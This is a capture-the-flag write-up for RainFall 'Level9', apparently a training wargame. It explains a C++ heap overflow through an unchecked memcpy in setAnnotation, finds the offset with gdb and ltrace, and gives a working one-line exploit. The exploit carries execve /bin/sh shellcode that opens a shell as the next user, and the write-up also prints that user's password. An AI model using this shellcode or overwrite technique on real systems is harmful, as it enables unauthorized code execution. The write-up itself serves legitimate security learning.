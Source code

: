 # **Level9**

## **Analysis**

**In `main()`:**
```cpp
    // At least one argument needed
	if (ac <= 1) {
		exit(1);
	}

    // Create two objects
	obj1 = new N(5);
	obj2 = new N(6);

    // Unprotected 'memset()'
	obj1->setAnnotation(av[1]);

    // Call to pointer to pointer of function
	(**fct)(obj2, &obj1);

	return 0;
```

___

## **Exploit**

Using the memcpy, we'll overwrite `**fct` to the adress of `N.str` which need to need to be the pointer to function which will point to our first shellcode instruction

Lets determine the offset to overwrite `**fct`
```
 ❯ python3 offset.py
AAAABBBBCCCCDDDDEEEEFFFFGGGGHHHHIIIIJJJJKKKKLLLLMMMMNNNNOOOOPPPPQQQQRRRRSSSSTTTTUUUUVVVVWWWWXXXXYYYYZZZZaaaabbbbccccddddeeeeffffgggghhhhiiiijjjjkkkkllllmmmmnnnnooooppppqqqqrrrrssssttttuuuuvvvvwwwwxxxxyyyyzzzz%                            

(gdb) r AAAABBBBCCCCDDDDEEEEFFFFGGGGHHHHIIIIJJJJKKKKLLLLMMMMNNNNOOOOPPPPQQQQRRRRSSSSTTTTUUUUVVVVWWWWXXXXYYYYZZZZaaaabbbbccccddddeeeeffffgggghhhhiiiijjjjkkkkllllmmmmnnnnooooppppqqqqrrrrssssttttuuuuvvvvwwwwxxxxyyyyzzzz
Starting program: /home/user/level9/level9 AAAABBBBCCCCDDDDEEEEFFFFGGGGHHHHIIIIJJJJKKKKLLLLMMMMNNNNOOOOPPPPQQQQRRRRSSSSTTTTUUUUVVVVWWWWXXXXYYYYZZZZaaaabbbbccccddddeeeeffffgggghhhhiiiijjjjkkkkllllmmmmnnnnooooppppqqqqrrrrssssttttuuuuvvvvwwwwxxxxyyyyzzzz

Program received signal SIGSEGV, Segmentation fault.
(gdb) info register eax
eax            0x62626262       1650614882

 ❯ python3 offset.py 62
108
```

what's the adress of `N.str` ?
```
level9@RainFall:~$ ltrace ./level9 42
__libc_start_main(0x80485f4, 2, 0xbffff7f4, 0x8048770, 0x80487e0 <unfinished ...>
_ZNSt8ios_base4InitC1Ev(0x8049bb4, 0xb7d79dc6, 0xb7eebff4, 0xb7d79e55, 0xb7f4a330) = 0xb7fce990
__cxa_atexit(0x8048500, 0x8049bb4, 0x8049b78, 0xb7d79e55, 0xb7f4a330) = 0
_Znwj(108, 0xbffff7f4, 0xbffff800, 0xb7d79e55, 0xb7fed280) = 0x804a008
_Znwj(108, 5, 0xbffff800, 0xb7d79e55, 0xb7fed280)       = 0x804a078
strlen("42")                                            = 2
memcpy(0x0804a00c, "42", 2)                             = 0x0804a00c
_ZNSt8ios_base4InitD1Ev(0x8049bb4, 11, 0x804a078, 0x8048738, 0x804a00c) = 0xb7fce4a0
+++ exited (status 11) +++
```

**Solution:**
 * (04) pointer to the first instruction of shell_code
 * (45) shell_code
 * (59) offset, 108 - 04 - 45
 * (04) return adress of memcpy

```
level9@RainFall:~$ ./level9 $(python -c 'print "\x10\xa0\x04\x08" + "\xeb\x1f\x5e\x89\x76\x08\x31\xc0\x88\x46\x07\x89\x46\x0c\xb0\x0b\x89\xf3\x8d\x4e\x08\x8d\x56\x0c\xcd\x80\x31\xdb\x89\xd8\x40\xcd\x80\xe8\xdc\xff\xff\xff/bin/sh" + "\x90" * 59 + "\x0c\xa0\x04\x08"')
$ whoami
bonus0
$ cat /home/user/bonus0/.pass
f3f0004b6f364cb5a4147e9ef827fa922a4861408845c26b6971ad770d906728
```

___

*Password: c542e581c5ba5162a85f767996e3247ed619ef6c6f7b76a59435545dc6259f8a*